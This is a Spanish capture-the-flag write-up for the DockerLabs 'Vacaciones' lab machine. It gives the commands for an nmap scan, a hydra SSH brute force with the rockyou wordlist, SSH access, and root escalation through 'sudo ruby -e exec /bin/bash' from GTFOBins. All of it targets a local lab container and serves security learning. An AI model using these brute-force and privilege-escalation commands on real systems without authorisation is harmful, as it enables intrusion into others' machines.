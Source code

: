 ```yaml
---
layout: post
title: "Vacaciones"
date: 2024-06-29 12:20:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Vacaciones </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/vacaciones/host.png){:.margin}

**1\.** Escaneo los puertos y servicios de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/nmap.png){:.margin}

**2\.** En la web visualmente no tenemos nada, pero si vemos la fuente encontramos posibles usuarios.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/80.png){:.margin}
![img](/notas/public/img/dockerlabs/vacaciones/80code.png){:.margin}

**3\.** Haciendo fuerza bruta al ssh.

`echo -e "camilo\njuan" > users.txt`

`hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/hydra.png){:.margin}

**4\.** Accedo por ssh con estas credenciales.

`ssh camilo@172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/sshcamilo.png){:.margin}

**5\.** Busco el dichoso correo que nos dejo juan.

`find / -name mail 2>/dev/null | xargs find`

`cat /var/mail/camilo/correo.txt`

![img](/notas/public/img/dockerlabs/vacaciones/find.png){:.margin}

**6\.** Migro al usuario juan.

`su juan`

![img](/notas/public/img/dockerlabs/vacaciones/sujuan.png){:.margin}

**7\.** Encuentro un binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/vacaciones/sudol.png){:.margin}

**8\.** Escalando privilegios, Busco indicaciones del binario en [gtfobins](https://gtfobins.github.io/gtfobins/ruby/#sudo).

`sudo ruby -e 'exec "/bin/bash"'`

![img](/notas/public/img/dockerlabs/vacaciones/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>